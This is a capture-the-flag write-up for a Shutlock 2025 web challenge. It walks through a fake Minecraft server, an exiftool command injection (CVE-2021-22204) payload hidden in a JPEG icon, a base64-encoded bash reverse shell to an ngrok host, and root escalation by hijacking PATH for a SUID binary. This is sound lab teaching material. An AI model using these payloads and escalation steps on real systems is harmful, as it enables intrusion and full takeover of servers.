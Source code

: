 # Old School Markus - Shutlock 2025

> Une personne de mon équipe m'a envoyé son projet de visualisation de données pour un jeu qu'il aime bien. Son projet n'a pas l'air fiable et en plus il est "Old School", peut-être un peu trop.
>
> Aide moi à lui prouver que rien ne va !

## looking at the website

in the main page form, we can see the following fields:

```html
<form method="GET">
  <input type="text" name="server" placeholder="IP du serveur (ex: play.monserveur.com)" required>
  <input type="number" name="port" placeholder="Port du serveur (ex: 25565)" required>
  <!-- <input type="hidden" name="debug" value="debug_for_admin_20983rujf2j1i2" > -->
  <button type="submit">🎮 Obtenir les Infos</button>
</form>
```

there's an hidden `debug` value which we can use later.

## starting a fake minecraft server

```bash
git clone https://github.com/ZockerSK/FakeMCServer
python3 main.py
# running the server once will create a config.json file with default values
```

after calling a few times the app using `curl 'http://57.128.112.118:14635/?server=4.tcp.eu.ngrok.io&port=13957'`, we can fix issues such as:

- the server needs at least 1 000 000 players online
- the server's description needs to contain the words "Cannes" and "Cinema"

also after looking at the packets sent, we can see that they expect protocol `47`, which is the protocol used by Minecraft 1.8.0, not sure if this is required but let's use it anyway.

```json
{
  "ip": "0.0.0.0",
  "kick_message": [
    "§bSorry",
    "",
    "§aThis server is offline!"
  ],
  "motd": {
    "1": "Cannes et Cinema",
    "2": "Cannes et Cinema"
  },
  "player_max": 1000000,
  "player_online": 1000000,
  "port": 25565,
  "protocol": 47,
  "samples": [],
  "server_icon": "server_icon.jpg",
  "show_hostname_if_available": true,
  "show_ip_if_hostname_available": true,
  "version_text": "1.8.0"
}
```

then we can start the server:

```bash
python3 main.py
ngrok tcp 25565 # to expose the server
```

## looking at the server icon

when the server have a server icon, the website will display it.
if we use the debug value, we can see this extra information:

```html
<!-- Exiftool Version: 12.23, Taille du fichier: 73 -->
```

after a quick search, version `12.23` of `exiftool` is vulnerable: <https://ine.com/blog/exiftool-command-injection-cve-2021-22204-exploitation-and-prevention-strategies> (we'll use this article as a reference)

## building the payload

```bash
nc -lvn 10000
ngrok tcp 10000 # to expose the server
```

let's build our image with an existing `jpg` image...
we don't actually care if the image is a minecraft server icon or not, we just need to inject our payload in it,
the app will process it anyway.

```bash
$ echo 'sh -i >& /dev/tcp/6.tcp.eu.ngrok.io/13039 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvNi50Y3AuZXUubmdyb2suaW8vMTMwMzkgMD4mMQo=
```

write the following payload in a `payload` file!

```
(metadata "\c${system('echo c2ggLWkgPiYgL2Rldi90Y3AvNi50Y3AuZXUubmdyb2suaW8vMTMwMzkgMD4mMQo= | base64 -d | bash')};")
```

then let's build our djvu from the payload!

```bash
# compress the payload
$ bzz payload payload.bzz

# create a djvu file with the payload
$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

write the following config file into an `exifconfig` file for `exiftool` configuration.

```
%Image::ExifTool::UserDefined = (
    'Image::ExifTool::Exif::Main' => {
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
);
1; #end%
```

now let's inject our payload in any `jpg`!

```bash
$ exiftool -config exifconfig '-HasselbladExif<=exploit.djvu' image.jpg
#                                               ^ exploit we created above
#                                                             ^ source image we'll modify
```

let's use this image as our server icon now.

```bash
mv image.jpg server_icon.jpg # path from the fake server config, see above

# let's call the app!
curl 'http://57.128.112.118:14635/?server=4.tcp.eu.ngrok.io&port=13957&debug=debug_for_admin_20983rujf2j1i2'
```

## reverse shell

we're now in, after running `ls -la` we can see the following files:

```bash
$ ls -la
total 52
drwxr-xr-x 1 flaskuser flaskuser  4096 Jun 23 22:21 .
drwxr-xr-x 1 root      root       4096 Jun 23 22:21 ..
-rw-r--r-- 1 flaskuser flaskuser  2454 May 29 10:39 app.py
---s--x--x 1 root      root      16184 May 29 10:39 fix_permissions
---------- 1 root      root         40 May 29 10:39 flag.txt
drwxr-xr-x 1 flaskuser flaskuser  4096 Jun 23 22:41 images
-rw-r--r-- 1 flaskuser flaskuser    25 May 29 10:39 requirements.txt
-rw-r--r-- 1 flaskuser flaskuser     2 Jun 23 22:21 supervisord.pid
drwxr-xr-x 1 flaskuser flaskuser  4096 May 29 10:39 templates
```

trying to read the flag does not work:

```bash
$ cat flag.txt
cat: flag.txt: Permission denied

$ whoami
flaskuser
```

there is a `fix_permissions` script that we can run but it outputs nothing.

## privilege escalation

after looking at suid exploits, i found out an interesting one.

```bash
mkdir /tmp/fakebin
echo -e '#!/bin/bash\nbash' > /tmp/fakebin/chmod
chmod +x /tmp/fakebin/chmod
PATH=/tmp/fakebin:$PATH ./fix_permissions
```

it consists in creating a fake `chmod` binary that will run a bash shell instead of changing permissions. here we're expecting the `fix_permissions` script to call `chmod` but this is simply a guess!

after running the above command, we can see that we have a root shell:

```bash
$ PATH=/tmp/fakebin:$PATH ./fix_permissions
/tmp/fakebin/chmod: 1: -e: not found
$ whoami
root
```

## looking at the `fix_permissions` binary (for fun)

after installing `strings` (since the machine did not have it), we can run `strings ./fix_permissions` to see what it uses:

```
/lib64/ld-linux-x86-64.so.2
puts
setgid
setuid
execl
printf
getuid
[*] Fixing permissions for files in /app/images
[*] Running as UID: %d
[*] Command: chmod 400 *
cd /app/images && chmod 400 *
/bin/sh
GCC: (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0
```

> (i removed not interesting strings)

as we can see, it runs `cd /app/images && chmod 400 *` and that's how we got our root shell!

## flag

```bash
$ cat flag.txt
SHLK{O!d_Sch0Ol_Guy_Ho1ds_Olds_V3rsions}
```

boom, we got the flag!
